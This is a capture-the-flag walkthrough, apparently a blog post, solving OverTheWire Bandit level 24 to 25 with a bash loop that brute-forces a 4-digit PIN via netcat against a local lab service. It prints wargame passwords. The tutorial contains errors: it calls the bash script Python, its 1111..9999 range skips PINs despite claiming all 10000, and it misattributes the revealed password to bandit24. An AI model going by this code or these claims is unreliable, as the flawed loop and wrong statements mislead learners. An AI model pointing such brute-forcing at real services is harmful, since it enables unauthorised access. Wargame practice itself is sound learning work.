 Alright, now that we have Python installed, what we are going to want to do is setup a simple for loop script that will allow us to "bruteforce" each of the 10000 different combinations for this 4-digit pin.   
In order to get started, let's create a new directory inside of our /tmp location and you can call it what ever you want. Your name/alias name, etc.   
```  
$ mkdir /tmp/cryptoh4ck3r  
  
$ cd /tmp/cryptoh4ck3r  
  
$ nano mypython.sh  
#!/bin/bash
We will set a variable to call using the bandit24 password like so;  
bandit24password=VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar  
```
  
If you try to save and close this, and you get a read/write error, that is okay. Simply do the following commands;  
```
$ cd ..  
  
$ mkdir new_directory_name  
  
$ cd new_directory_name  
  
$ nano mypython.sh  
  
#!/bin/bash  
  
**We will set a variable to cann using the Bandit24 password like so;  
bandit24password=VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar  
  
**Now, time to create a for loop.**  
A for loop will keep running until the conditions are met. Let's begin!  
  
for i in {1111..9999}; do
	echo "$bandit24password $i"  
done | nc localhost 30002 
```
Basically, what we just did is created a python script that will allow us to call "i" between 4 digit pins and it will echo out our bandit24 password along side with a new set of 4-digit pins ranging from 1111 to 9999.  
  
We also added our netcat command to allow it to connect to the port we want it to connect to. This is 1 method we can use to bruteforce our way into multiple ports.  
  
Now, we can execute this command like so;  
  
```
$ chmod 777 mypython.sh  
  
$ ./mypython.sh  
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.  
Wrong! Please enter the correct pincode. Try again.  
Wrong! Please enter the correct pincode. Try again.  
Wrong! Please enter the correct pincode. Try again.  
Wrong! Please enter the correct pincode. Try again.  
Correct!  
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d  
  
Exiting.  
```
***AWESOME SAUCE!!!*** You know what this means? Our python for loop function actually worked! We know this works because we can read;  
"The password of user bandit24 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d"  
  